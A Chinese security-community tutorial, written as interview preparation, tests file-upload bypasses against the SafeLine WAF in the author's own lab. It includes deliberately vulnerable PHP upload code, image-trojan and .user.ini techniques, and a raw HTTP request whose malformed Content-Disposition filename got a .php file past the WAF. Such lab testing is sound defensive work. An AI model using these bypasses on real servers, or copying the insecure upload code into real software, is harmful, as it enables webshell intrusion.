


# 如果面试官再给我一次机会之文件上传 - 先知社区

如果面试官再给我一次机会之文件上传

- - -

在网安面试的过程中面试官时常会问到如何绕过文件上传和如果防御文件上传，因在面试中支支吾吾遂有感而发作此篇。

## 环境搭建

本文利用长亭的百川绑定阿里的服务器实现一键安装（Version 3.13.2）  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702005252513-0de455c0-9c74-4960-8205-7aa3ca2b27aa.png#averageHue=%235c5c59&clientId=udb34cc94-1b29-4&from=paste&height=832&id=udbaba6ac&originHeight=1248&originWidth=2424&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=403246&status=done&style=none&taskId=u6e9ce879-edb5-40f8-96c1-bcf0211592a&title=&width=1616)

> [https://waf-ce.chaitin.cn/docs/guide/install](https://waf-ce.chaitin.cn/docs/guide/install)

[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702020518984-10f9a051-7d11-482d-8e5c-fd523f3d7c56.png#averageHue=%23fdfbfb&clientId=udb34cc94-1b29-4&from=paste&height=476&id=uba0f1682&originHeight=714&originWidth=860&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=42449&status=done&style=none&taskId=u9639cb06-9158-4bd7-9fdf-0f029242272&title=&width=573.3333333333334)  
按道理，做到这里基本上部署已经完成了接下来配置一下 IP 和端口就可以了，忽略调试过程直接说结论，在阿里云上搭建的话，会遇到我们访问显示“嗯… 无法访问此页面"的回显，这个时候应该先试试 curl 命令的回显

```plain
curl -vv http://你的部署服务器:端口
我这里就是 curl -vv http:127.0.0.1:7777
```

如果到这里，你的 curl 有回显，但 web 端无法访问就是因为阿里云服务器的防火墙没有关

```plain
关闭防火墙
# systemctl stop firewalld
# systemctl status firewalld
禁用防火墙（系统启动时不启动防火墙服务）
# systemctl disable firewalld
# systemctl is-enabled firewalld
```

非常感谢长亭雷池 WAF 社区交流群的师傅耐心指导

## 构造文件上传点

index.html  
设置一个上传界面

```plain
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>文件上传</title>
  </head>
  <body>
    <form action="../upFile.php" method="post" enctype="multipart/form-data">
      <input type="file" name="file">
      <input type="submit" value="上传">
    </form>
  </body>
</html>
```

upFile.php

```plain
<?php
  header('Content-type:text/html;charset=utf-8');
if($_FILES['file']['error'] == 0){  // 判断上传是否正确
                                  $fileName = $_FILES['file']['name'];  // 获取文件名称
                                  $fileSize = $_FILES['file']['size'];  // 获取文件大小
                                  $tmp_name = $_FILES["file"]["tmp_name"]; // 获取上传文件默认临时地址
                                  $fileTypeInfo = ['doc','txt','php'，'png','gif'];  // 定义允许上传文件类型【很多种只列举 3 种】
                                  $fileType = substr(strrchr($fileName,'.'),1); // 提取文件后缀名
                                  if(!in_array($fileType,$fileTypeInfo)){  // 判断该文件是否为允许上传的类型
                                                                         echo '上传失败，文件格式不正确';
                                                                         die();
                                                                        }
                                  if($fileSize /1024 > 2){  // 规定文件上传大小【文件为 Byte/1024 转为 kb】
                                                          echo '上传失败，文件太大请上传小于 2Kb';
                                                          die();
                                                         }
                                  date_default_timezone_set('PRC'); // 定义时间戳
                                  if(!file_exists('./common/uploads')){  // 判断是否存在存放上传文件的目录
                                                                       mkdir('./common/uploads');  // 建立新的目录
                                                                      }else{
                                    $newFileName = date('Ymd').'_'.$fileName;  // 命名新的文件名称
                                    if(move_uploaded_file($tmp_name,'/www/waf/common/uploads/'.$newFileName)){  // 移动文件到指定目录
                                                                                                              echo ("上传成功");
                                                                                                             }
                                  }
                                 }else{
  echo "上传失败".$_FILES['file']['error'];  // 显示错误信息
}
?>
```

在环境搭建中可能会遇到的报错  
1.显示没有权限 mkdir，这时候可以选择手动创建没有的文件夹./common/upload  
2.显示 move\_uploaded 函数没有权限，给 uploads 文件夹权限

```plain
sudo chmod 600 ××× （只有所有者有读和写的权限）
sudo chmod 644 ××× （所有者有读和写的权限，组用户只有读的权限）
sudo chmod 700 ××× （只有所有者有读和写以及执行的权限）
sudo chmod 666 ××× （每个人都有读和写的权限）
sudo chmod 777 ××× （每个人都有读和写以及执行的权限）
```

如何在服务器上利用 PHP 起一个 Web 服务或者其他方式启动 Web 服务

```plain
php -S localhost:端口
```

[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702021155699-dc981052-9438-423b-9406-570c23af7936.png#averageHue=%23f8f7f7&clientId=udb34cc94-1b29-4&from=paste&height=52&id=u653cee8b&originHeight=78&originWidth=593&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=4185&status=done&style=none&taskId=uaad2e9cb-2a28-4ac2-8f3e-7eda8ec4811&title=&width=395.3333333333333)  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702021169324-b980b955-e12a-4bc9-90b3-c9ca762bd2eb.png#averageHue=%23fafafa&clientId=udb34cc94-1b29-4&from=paste&height=611&id=u3a3ce91c&originHeight=916&originWidth=1339&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=67599&status=done&style=none&taskId=u9407bf57-882e-402c-a552-341ffe037c4&title=&width=892.6666666666666)  
味道对了，开搞

## WAF 绕过

本次所用 WAF 版本为雷池社区交流版（开源）  
版本为 Version 3.13.2  
环境为 PHP  
开搞前，我建议把这个情报共享关了  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702021358128-00047997-4f3c-4245-a465-2d5c11f169bd.png#averageHue=%23e7debd&clientId=udb34cc94-1b29-4&from=paste&height=921&id=uae2d8e0c&originHeight=1382&originWidth=2458&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=197175&status=done&style=none&taskId=ueb2a04d2-97f0-4149-b96a-96105679e49&title=&width=1638.6666666666667)

### 平衡防护模式

先尝试平衡防护模式  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702021395267-9b14fe7d-c3d9-4960-990e-df4ba4733460.png#averageHue=%23dbb276&clientId=udb34cc94-1b29-4&from=paste&height=658&id=u922059f1&originHeight=987&originWidth=2443&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=168478&status=done&style=none&taskId=u512979c7-7400-4bfb-88b1-7ca4aa14d46&title=&width=1628.6666666666667)

#### 利用 FUZZ 测试可用后缀

FUZZ 的字典由下面的这个程序生成

> [https://github.com/c0ny1/upload-fuzz-dic-builder](https://github.com/c0ny1/upload-fuzz-dic-builder)

根据自身的配置来生成相应的文件  
语言：php  
中间件：*Apache*  
第一次运行报了 pinrt 的错，因为没有加括号看来之前写的时候用的是 python2  
再报错

```plain
AttributeError: module 'urllib' has no attribute 'unquote'
```

原因是 python2 和 python3 的用法不一样，解决方法：

```plain
urllib.unquote 替换成 urllib.parse.unquote
```

[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702022198673-455a872b-3b61-4698-b21e-ded013303ba3.png#averageHue=%23f4f4f4&clientId=udb34cc94-1b29-4&from=paste&height=174&id=u3dc53a54&originHeight=261&originWidth=1793&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=30040&status=done&style=none&taskId=u277c889b-eaee-4cb9-90ff-057cbc3c622&title=&width=1195.3333333333333)  
再报错

```plain
AttributeError: module 'urllib' has no attribute 'parse'
```

解决方法，在脚本中加入

```plain
from flask import Flask
import urllib
```

[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702022511235-4aad8a16-74ac-4d66-8080-36ad5393e3a6.png#averageHue=%23171717&clientId=udb34cc94-1b29-4&from=paste&height=191&id=u2a79c6c4&originHeight=287&originWidth=1644&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=51296&status=done&style=none&taskId=u1a26ddb7-c030-40e9-b8ff-7344612322d&title=&width=1096)  
写入文件的时候出问题了，这里也可以理解因为有的时候用的截断比较特殊  
直接总结  
1.加入编码前提

```plain
import sys
import io
sys.stdout = io.TextIOWrapper(sys.stdout.buffer,encoding='utf-8')
```

2.针对 294 行的 write 函数进行单独编码即修改为如下

```plain
f.write(str.encode('unicode-escape').decode('utf-8'))
```

[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702022980324-ae3bd838-70a3-4b08-be45-0664b3537260.png#averageHue=%231e1e1e&clientId=udb34cc94-1b29-4&from=paste&height=132&id=u575f5b47&originHeight=198&originWidth=835&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=29797&status=done&style=none&taskId=u7a90b9b0-5f25-4bb7-bda5-304716e9738&title=&width=556.6666666666666)  
字典形成了，我们换 FUZZ 工具，这里用的是 BP 直接攻击  
上传的文件内容就不要写的很敏感了，先试试传个 TXT 不会被拦的内容如何加入刚刚生成的字典  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702023287006-566ad25a-bd23-4934-903a-97dc7d0ca098.png#averageHue=%23fbfafa&clientId=udb34cc94-1b29-4&from=paste&height=517&id=ua7b345f3&originHeight=776&originWidth=1883&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=108659&status=done&style=none&taskId=ua98cbed4-895c-4e45-b97e-81535b6b5ba&title=&width=1255.3333333333333)  
为确保万无一失，这里设置了线程和时间  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702023371095-3430e546-69f1-412f-98a0-879cfe76809a.png#averageHue=%23f7f6f5&clientId=udb34cc94-1b29-4&from=paste&height=213&id=u14ee5c24&originHeight=320&originWidth=1415&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=34913&status=done&style=none&taskId=ufba154cd-1593-404a-be07-49d172beea8&title=&width=943.3333333333334)  
发生后发现可以直接上次 php 后缀文件，查看上次的日志  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702024441760-41514eb2-9bd5-40ca-8864-7fd9756808f0.png#averageHue=%23e5c35a&clientId=udb34cc94-1b29-4&from=paste&height=743&id=wyGny&originHeight=1114&originWidth=1690&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=155432&status=done&style=none&taskId=u7deeecf0-c306-46a4-82c5-6c941d8e32b&title=&width=1126.6666666666667)  
发现我们开启的只是平衡防护模式，智能平衡模式发现了后缀为 php 但因为文件内容是无危害的所以放行，可以去雷池的界面查看，发送是被观察到了，但因为无危害所以提示了，但没有拦截，因此换成高强度防护  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702024337062-c08e3246-9d10-432e-83cd-11aa7f1ca806.png#averageHue=%23f8f4f4&clientId=udb34cc94-1b29-4&from=paste&height=549&id=u18515e64&originHeight=823&originWidth=1378&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=216346&status=done&style=none&taskId=u0f520aae-4342-431a-98ba-cbb4cb02888&title=&width=918.6666666666666)

### 高强度防护

关闭 bp 的自动 url 编码，将下图的选项取消勾选即可  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702024606358-19abb287-b6f8-4138-97e1-863b834d228c.png#averageHue=%23f8f7f6&clientId=udb34cc94-1b29-4&from=paste&height=994&id=u4d425578&originHeight=1491&originWidth=1885&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=170431&status=done&style=none&taskId=u5b292758-3e04-4281-9f14-2c05f0caff3&title=&width=1256.6666666666667)

#### 绕过失败

FUZZ 测试结果，全军覆没，看来单纯在文件名和后缀上做文章应该是过不去了  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702025451046-952e58c4-1085-465e-b57c-104d1401ea72.png#averageHue=%23faf6f4&clientId=udb34cc94-1b29-4&from=paste&height=713&id=u1a71a318&originHeight=1069&originWidth=1443&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=124503&status=done&style=none&taskId=udef354cd-05b3-4eed-8f66-990f0a056b6&title=&width=962)

##### 前端验证绕过

在文件上传学习的初期常常通过先上传一个正常后缀的文件，后利用 bp 抓包修改后缀来达到绕过 JS 代码防护的目的，但在本次的上传点中并没有 JS 限制，因此修改后缀的方法直接 PASS

##### 大小写 (黑名单) 绕过

该方法主要针对黑名单进行绕过，并且该方法有一个前置条件需要网站服务器是 Windows 搭建，因为 Windows 默认大小写不敏感（看网上参考文献好像可以手动开启）  
linux 主机下：  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702025373071-f5d15165-161d-45dd-a179-0a617d7354e3.png#averageHue=%23292826&clientId=udb34cc94-1b29-4&from=paste&height=117&id=u94536fb2&originHeight=176&originWidth=545&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=17740&status=done&style=none&taskId=ufd28c5c8-04d0-4ecf-b8ed-16e22eafeb9&title=&width=363.3333333333333)  
Windows 主机下：  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702025421789-2be40108-afaa-4df0-9f5c-5c6818d6355c.png#averageHue=%231e1e1e&clientId=udb34cc94-1b29-4&from=paste&height=166&id=u9dd95478&originHeight=249&originWidth=354&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=14188&status=done&style=none&taskId=u76a28f6d-ce8d-4427-9655-cc33a45a01b&title=&width=236)  
这里只放一个例子，如果想都试一遍的话可以生成一个字典  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702025203681-0f208c7c-c03a-43e3-b2d7-cb40a28fc7ef.png#averageHue=%23f9f7f7&clientId=udb34cc94-1b29-4&from=paste&height=295&id=u09197da7&originHeight=442&originWidth=1356&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=112313&status=done&style=none&taskId=u8495ecf1-18d8-4df8-8338-ff886e77917&title=&width=904)

##### 同类后缀名绕过

该方法其实也是比较老，并且需要配置条件，比如在 php 中后缀为 php3 也可以被解析但需要修改中间件（Apache）配置文件  
正常情况下 php 文件  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702025756843-4075c0f5-65aa-4c80-9728-df8bba53e6b9.png#averageHue=%23d4d5a2&clientId=udb34cc94-1b29-4&from=paste&height=528&id=ud85cc646&originHeight=792&originWidth=1847&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=141733&status=done&style=none&taskId=u29a13598-8e80-4a30-ba91-10ce0f5beee&title=&width=1231.3333333333333)  
修改后缀为 php3  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702025780827-b2da339e-40b1-4b9b-a576-1b72e578836a.png#averageHue=%23fefefe&clientId=udb34cc94-1b29-4&from=paste&height=699&id=u30c91cdf&originHeight=1049&originWidth=1679&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=38399&status=done&style=none&taskId=u1c264ade-7ab4-4a10-be9d-5c37a145f38&title=&width=1119.3333333333333)  
修改 Apache 配置文件  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702026874644-fa8e6d77-154b-46fe-822d-258321157883.png#averageHue=%23f3f2f1&clientId=udb34cc94-1b29-4&from=paste&height=743&id=uebaec706&originHeight=1115&originWidth=1906&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=177993&status=done&style=none&taskId=uacb280ac-edfe-4c2c-b56b-61580b4a7d9&title=&width=1270.6666666666667)  
但因为不知道是不是 Apache 版本的问题，都没有实现  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702026910380-bf17d7e3-4e3d-4d7f-83dd-30b63aa8a4ec.png#averageHue=%23fdfdfd&clientId=udb34cc94-1b29-4&from=paste&height=362&id=u023d776b&originHeight=543&originWidth=2248&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=64187&status=done&style=none&taskId=ue7cc8977-ea36-40de-aeff-3277694b577&title=&width=1498.6666666666667)

##### .htacess 配置文件绕过

该方法需要修改 Apache 配置，启用 AllowOverride，并可以用 AllowOverride 限制特定命令的使用。  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702347219153-363259c3-bd37-4b0d-af38-e3cac8202387.png#averageHue=%23f8f7f7&clientId=u72e54e17-d820-4&from=paste&height=179&id=ubd384844&originHeight=295&originWidth=922&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=20572&status=done&style=none&taskId=u0414d298-cfbb-4023-b59e-9dbf80c26c9&title=&width=558.787846490811)  
.htaccess 是一个纯文本文件，它里面存放着[Apache](https://so.csdn.net/so/search?q=Apache&spm=1001.2101.3001.7020)服务器配置相关的指令。  
.htaccess 主要的作用有：URL 重写、自定义错误页面、MIME 类型配置以及访问权限控制等。主要体现在伪静态的应用、图片防盗链、自定义 404 错误页面、阻止/允许特定 IP/IP 段、目录浏览与主页、禁止访问指定文件类型、文件密码保护等。  
.htaccess 的用途范围主要针对当前目录。  
该方法在白名单的时代，其实也很少能用了，并且注意一个点，我们上传的.htaccess 文件不需要前缀否则达不到效果  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702027046313-58bda89b-c6da-4a6a-ad19-6d94db73b4a4.png#averageHue=%23fbfafa&clientId=udb34cc94-1b29-4&from=paste&height=279&id=u4e20c07b&originHeight=419&originWidth=1260&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=61155&status=done&style=none&taskId=u8792f461-543f-4e64-bc27-3fecb418b4f&title=&width=840)

##### user.ini 文件构造

> 自 PHP 5.3.0 起，PHP 支持基于每个目录的 .htaccess 风格的 INI 文件。此类文件仅被 CGI／FastCGI SAPI 处理。除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web 根目录（$\_SERVER\['DOCUMENT\_ROOT'\] 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。在 .user.ini 风格的 INI 文件中除了 PHP\_INI\_SYSTEM 以外的模式 INI 设置都可被识别。  
> 这里需要借助 php 配置项中的两个核心配置：auto\_append\_file、auto\_prepend\_file  
> .user.ini 使用范围很广，不仅限于 Apache 服务器，同样适用于 [Nginx](https://so.csdn.net/so/search?q=Nginx&spm=1001.2101.3001.7020) 服务器，只要服务器启用了 fastcgi 模式 (通常非线程安全模式使用的就是 fastcgi 模式)。

创建一个.uers.ini 文件和恶意的 test.gif 文件（本次使用的是 phpinfo 函数）  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702350492393-d474b055-e261-49f4-a42f-1a68f652b01a.png#averageHue=%23d69d54&clientId=u72e54e17-d820-4&from=paste&height=159&id=uf2c6947e&originHeight=263&originWidth=1281&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=29945&status=done&style=none&taskId=u8f057a83-a4dc-4b11-b9e9-879d8399e72&title=&width=776.3635914910293)  
访问我们的文件上传点即 index.php 相当于在 index.php 文件里插入了包含语句 require('test.gif')，进行了文件包含。  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702350514518-783b466d-20f8-4332-a921-8f94c6ecbba6.png#averageHue=%23e9e9e8&clientId=u72e54e17-d820-4&from=paste&height=675&id=xWNpn&originHeight=1114&originWidth=2170&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=199244&status=done&style=none&taskId=ub820dfd5-980e-4592-9ce5-4379b726f78&title=&width=1315.1514391378091)  
但在雷池防护中根本无法上传.uers.ini 文件  
[](https://cdn.nlark.com/yuque/0/2023/png/29034274/1702350618041-52e75047-863d-480e-83bc-8e52f14d931a.png#averageHue=%23faf9f9&clientId=u72e54e17-d820-4&from=paste&height=407&id=u78abfde1&originHeight=671&originWidth=1378&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=115571&status=done&style=none&taskId=u44b49a04-7b40-426d-842e-4c451323bdd&title=&width=835.1514668810604)

##### 双写绕过

这是在靶场中遇到的一些过滤，比如过滤缀名 php 替换为空，这时可以利用 pphphp 来进行绕过  
第一个 php 会被替换为空，此时前后再次拼接形成 php  
该绕过方法应该也只限于靶场了

##### 后缀加字符绕过-::$DATA

该方法利用的是 Windows 的特性，因此对于 linux 主机没有效果  
在 window 的时候如果文件名+"::$DATA"会把::$DATA 之后的数据当成文件流处理，不会检测后缀名，且保持::$DATA 之前的文件名，他的目的就是不检查后缀名  
例如："phpinfo.php::$DATA"Windows 会自动去掉末尾的::$DATA 变成"phpinfo.php"  
本次雷池搭建环境为 linux 因此无法绕过

##### 00 截断绕过

这里还有分为 0x00h 和%00  
这两个不同的写法都代表着 chr(0)，即空字符，只不过使用的位置不同，0x00 代表 16 进制的空字符 00，需要在 HEX 中改为 00，进行截断即利用 bp 中的 hex 中进行替换[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706943141786-7512e788-5076-4143-870c-93ff553c151e.png#averageHue=%23f6f0ef&clientId=u3b2b962d-61fd-4&from=paste&height=839&id=ue13fa225&originHeight=1258&originWidth=2102&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=488323&status=done&style=none&taskId=u5fed7147-3aa8-4dec-b700-25f3b19a311&title=&width=1401.3333333333333)  
而%00 是 URL 解码之前的字符，它被解码成 16 进制 ASCII 码之后实际上也是 0x00，所以它们最终都对应的是空字符，这里%00 可以用在 URL 中如 xx.php?filename=test.php%00.txt，也可以直接插在 Burp 包中的路径中，如 path=shell.jsp%00.txt[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706943203949-30ed5993-2f14-48f4-8bbc-f5535d39d153.png#averageHue=%23f9f4f4&clientId=u3b2b962d-61fd-4&from=paste&height=773&id=u60f3cf48&originHeight=1159&originWidth=2125&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=413936&status=done&style=none&taskId=u65fb96bc-152a-4a87-855d-3f3e7316dbc&title=&width=1416.6666666666667)

##### 图片木马绕过

> 一般文件内容验证使用 getimagesize 函数检测，会判断文件是否是一个有效的文件图片，如果是，则允许上传，否则的话不允许上传。  
> 图片马绕过就是将一句话[木马](https://so.csdn.net/so/search?q=%E6%9C%A8%E9%A9%AC&spm=1001.2101.3001.7020)插入到一个\[合法\]的图片文件当中，然后用 webshell 管理工具进行远程连接。

图片马的制作

```plain
copy 1.jpg /b + one.php /a 11.php
```

[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706943685873-1484de51-cea7-4a4f-84c2-790f41cafff3.png#averageHue=%23cd8e41&clientId=u3b2b962d-61fd-4&from=paste&height=781&id=uc3873a5a&originHeight=1172&originWidth=1802&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=584788&status=done&style=none&taskId=ue4f3c0a4-29ef-4334-b589-ad610e1c5c9&title=&width=1201.3333333333333)  
查看生成结果  
[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706943733977-e0b3a2c1-c6f5-4220-bb3d-2b48eb9d3c7b.png#averageHue=%23edeae9&clientId=u3b2b962d-61fd-4&from=paste&height=917&id=u9ca43903&originHeight=1376&originWidth=2555&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=520919&status=done&style=none&taskId=u1b7c9216-1be7-48e9-95e9-4f310a1c371&title=&width=1703.3333333333333)  
但在高强度模式下，无法进行 php 后缀的上传导致计划失败

##### 条件竞争绕过

条件竞争漏洞是一种服务器端的漏洞，条件竞争绕过需要上传文件检测的代码存在逻辑错误即文件落地后再进行检测删除，由于服务器端在处理不同用户的请求时是并发进行的，导致绕过的发生

> 条件竞争的过程中会有以下三种情况：  
> 1.访问时间点在上传成功之前，没有此文件。  
> 2.访问时间点在刚上传成功但还没有进行判断，该文件存在。  
> 3.访问时间点在判断之后，文件被删除，没有此文件。\`

代码分析

```plain
$is_upload = false;
$msg = null;   //判断文件上传操作

if(isset($_POST['submit'])){  //判断是否接收到这个文件
    $ext_arr = array('jpg','png','gif');  //声明一个数组，数组里面有 3 条数据，为：'jpg','png','gif'
    $file_name = $_FILES['upload_file']['name'];  //获取图片的名字
    $temp_file = $_FILES['upload_file']['tmp_name']; //获取图片的临时存储路径
    $file_ext = substr($file_name,strrpos($file_name,".")+1); //通过文件名截取图片后缀
    $upload_file = UPLOAD_PATH . '/' . $file_name; //构造图片的上传路径，这里暂时重构图片后缀名。

    if(move_uploaded_file($temp_file, $upload_file)){ //这里对文件进行了转存
        if(in_array($file_ext,$ext_arr)){ //这里使用截取到的后缀名和数组里面的后缀名进行对比
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;  //如果存在，就对文件名进行重构
             rename($upload_file, $img_path);  //把上面的文件名进行重命名
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！"; //否则返回"只允许上传.jpg|.png|.gif类型文件！"数据。
            unlink($upload_file);// 并删除这个文件
        }
    }else{
        $msg = '上传出错！';
    }
}
```

审计代码中发现在判断条件中，先进行了 move\_uploaded\_file 函数再对于文件进行了检测，因此存在条件竞争绕过的可能  
但在雷池 WAF 中我们文件还没落地就已经被拦住了，因此不可行

##### content-type 绕过

该方法在目前白名单的时代中也几乎不见了，我们可以看看它的写法

```plain
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists($UPLOAD_ADDR)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            if (move_uploaded_file($_FILES['upload_file']['tmp_name'], $UPLOAD_ADDR . '/' . $_FILES['upload_file']['name'])) {
                $img_path = $UPLOAD_ADDR . $_FILES['upload_file']['name'];
                $is_upload = true;

            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = $UPLOAD_ADDR.'文件夹不存在,请手工创建！';
    }
}
```

仅仅对于上传文件的 type 进行检测，无法绕过雷池 WAF

##### 利用文件包含漏洞

根据绕过方式的名字可以得知至少需要攻击者能够找到文件包含漏洞的位置且能够被攻击者任意构造才能够进行利用，两个条件如下  
(1 ) include 等函数通过动态执行变量的方式引入需要包含的文件  
(2）用户能控制该动态变量

#### 绕过成功

##### 修改 Content-Disposition 绕过

```plain
POST /upFile.php HTTP/1.1
Host: 39.106.145.5:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2477136673360361791890184650
Content-Length: 233
Origin: http://39.106.145.5:7777
Connection: close
Referer: http://39.106.145.5:7777/
Cookie: sl-session=OAWDFEAwv2UukbVHDXo51w==
Upgrade-Insecure-Requests: 1

-----------------------------2477136673360361791890184650
Content-Disposition: form-data;name="file"; filename=="one.php"
Content-Type: application/octet-stream

here
-----------------------------2477136673360361791890184650--
```

[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706944975477-12f47483-a2dc-44d9-94a0-53f0859b2d50.png#averageHue=%23fbfafa&clientId=u74e75591-cad2-4&from=paste&height=489&id=uf0a1bf3f&originHeight=734&originWidth=1616&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=118102&status=done&style=none&taskId=ucbf1c5b8-66d8-4d17-a31e-0e76768ebd6&title=&width=1077.3333333333333)  
